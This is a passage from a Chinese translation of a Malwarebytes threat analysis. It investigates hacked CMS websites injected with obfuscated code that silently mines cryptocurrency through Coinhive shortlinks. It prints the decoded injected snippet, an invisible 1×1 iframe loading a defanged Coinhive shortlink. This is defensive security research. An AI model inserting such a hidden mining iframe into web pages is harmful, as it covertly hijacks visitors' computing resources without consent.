 > 原文链接: https://www.anquanke.com//post/id/150636 


# Malwarebytes 对使用混淆 Coinhive 短链接进行浏览器挖矿的调查分析


                                阅读量   
                                **114448**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Jérôme Segura，文章来源：blog.malwarebytes.com
                                <br>原文地址：[https://blog.malwarebytes.com/threat-analysis/2018/07/obfuscated-coinhive-shortlink-reveals-larger-mining-operation/](https://blog.malwarebytes.com/threat-analysis/2018/07/obfuscated-coinhive-shortlink-reveals-larger-mining-operation/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t01a26257d4d8fcd292.png)](https://p1.ssl.qhimg.com/t01a26257d4d8fcd292.png)

## 前言

在过去的几个月里，通过浏览器挖矿继续影响着大量的网站，主要依赖Coinhive臭名昭著的API。我们在这个博客上记录了一些活动，特别是[Drupalgeddon](https://blog.malwarebytes.com/threat-analysis/2018/05/look-drupalgeddon-client-side-attacks/)，攻击者利用流行的内容管理系统(CMS)中的漏洞威胁网站，并在客户端和服务器端注入payload。

在过去的几周里，我们的爬虫已经使用各种CMS对数百个站点进行了编目，所有这些站点都被注入了相同的模糊代码，这些代码使用Coinhive的短链接来执行静默挖矿。通过围绕这一指标，我们能够确定一个更大的基础，它接收来自数千个被黑客攻击的网站的流量，作为门户将流量重定向到一个中央服务器，该服务器参与了网络和标准恶意挖矿软件的分销。

[![](https://p2.ssl.qhimg.com/t01132886c955ef00d5.png)](https://p2.ssl.qhimg.com/t01132886c955ef00d5.png)



## 混淆注入

作为我们常规爬行的一部分，我们寻找已知最新的站点的重定向，它们大多数都与Coinhive的域名相关。我们发现了数百个新域名，所有合法网站都被注入了十六进制代码。解码后，它显示为一个不可见的请求cnhv[.]co/3h2b2的iframe(1×1像素)。我们相信这是5月底[Sucuri披露](https://blog.sucuri.net/2018/05/cryptomining-through-disguised-url-shorteners.html)的同一运动的一部分。

```
&lt;i frame src="https://cnhv[.]co/3h2b2" width="1" height="1" align="left"&gt;&lt;/i frame&gt;
```

